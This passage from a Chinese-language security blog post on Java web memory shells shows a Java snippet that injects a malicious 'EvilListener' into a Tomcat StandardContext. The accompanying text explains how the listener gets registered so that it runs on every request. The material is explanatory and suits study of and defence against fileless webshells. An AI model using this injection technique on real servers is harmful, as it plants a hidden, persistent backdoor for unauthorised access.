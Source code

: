 ```java  
Request req = (Request) reqF.get(request);  
StandardContext context = (StandardContext) req.getContext();  
EvilListener evilListener = new EvilListener();  
context.addApplicationEventListener(evilListener);  
```  
前面四行代码获取了`StandardContext`；后两行代码干了两件事：实例化编写的恶意`Listener`，调用`addApplicationEventListener`方法加入到`applicationEventListenersList`中去，这样最终就会到`eventListener`。  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/web%E4%BC%A0%E7%BB%9F%E5%86%85%E5%AD%98%E9%A9%AC/  

